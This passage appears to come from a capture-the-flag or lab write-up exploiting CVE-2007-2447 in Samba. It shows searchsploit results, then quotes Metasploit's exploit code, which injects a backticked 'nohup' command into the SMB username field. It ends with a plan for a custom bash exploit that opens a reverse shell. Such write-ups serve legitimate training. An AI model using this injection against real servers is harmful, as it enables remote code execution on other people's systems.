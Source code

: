 ```shell
Samba < 3.0.20 - Remote Heap Overflow                                                                                                                                                                           | linux/remote/7701.txt
Samba < 3.6.2 (x86) - Denial of Service (PoC)                                                                                                                                                                   | linux_x86/dos/36741.py
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

We see that it is vulnerable and there is a Metasploit script that could let us inject commands into the `username` field when connecting to the SMB service.

We will examine the script with the following command:

`searchsploit -x unix/remote/16320.rb`

Inspecting the code, we can see how it works, paying attention to the following code block, it seems that it is injecting ``"/=`nohup " + payload.encoded + "`"`` into the username field, where `payload.encoded` would be the desired command to be run by the victim machine.


```ruby
def exploit

                connect

                # lol?
                username = "/=`nohup " + payload.encoded + "`"
                begin
                        simple.client.negotiate(false)
                        simple.client.session_setup_ntlmv1(username, rand_text(16), datastore['SMBDomain'], false)
                rescue ::Timeout::Error, XCEPT::LoginError
                        # nothing, it either worked or it didn't ;)
                end

                handler
        end
```

# Foothold

### Developing custom exploit in Bash

Instead of using `Metasploit`, I will create a little custom exploit in `bash` that will start a listener in my machine and send the payload using `crackmapexec smb` method in order to automate the full exploitation with a single execution and get a reverse shell.

> You can find my custom exploit in https://github.com/oscar-rk/exploits/blob/main/CVE-2007-2447/CVE-2007-2447.sh
